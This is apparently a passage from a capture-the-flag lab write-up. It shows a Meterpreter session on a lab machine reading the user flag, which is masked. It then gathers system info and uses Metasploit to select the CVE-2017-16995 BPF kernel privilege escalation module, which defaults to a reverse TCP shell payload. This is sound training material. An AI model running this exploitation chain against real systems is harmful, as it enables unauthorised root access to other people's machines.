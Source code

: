 ```bash
100644/rw-r--r--  0     fil   2017-09-22 18:35:31 +0200  .sudo_as_admin_successful
100444/r--r--r--  33    fil   2021-08-18 14:51:30 +0200  user.txt

meterpreter > cat user.txt
8e*************************9cb08
```

# Privesc

---

First, I tried to `load priv` to use the `getsystem` command:

```bash
meterpreter > getsystem
[-] The "getsystem" command requires the "priv" extension to be loaded (run: `load priv`)
meterpreter > use priv
Loading extension priv...
[-] Failed to load extension: i486-linux-musl/priv not found
```

So that does not work, I check the system info to find a possible kernel exploit:

```bash
meterpreter > sysinfo
Computer     : 10.10.10.56
OS           : Ubuntu 16.04 (Linux 4.4.0-96-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

For this version of linux exist a kernel exploit:

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/44298)

I searched for the CVE in metasploit (there is another way to privesc described later, but since I'm already using metasploit, I will continue with it):

```bash
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > search CVE-2017-16995

Matching Modules
================

   #  Name                                             Disclosure Date  Rank   Check  Description
   -  ----                                             ---------------  ----   -----  -----------
   0  exploit/linux/local/bpf_sign_extension_priv_esc  2017-11-12       great  Yes    Linux BPF Sign Extension Local Privilege Escalation

Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/local/bpf_sign_extension_priv_esc

msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > use 0
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
```

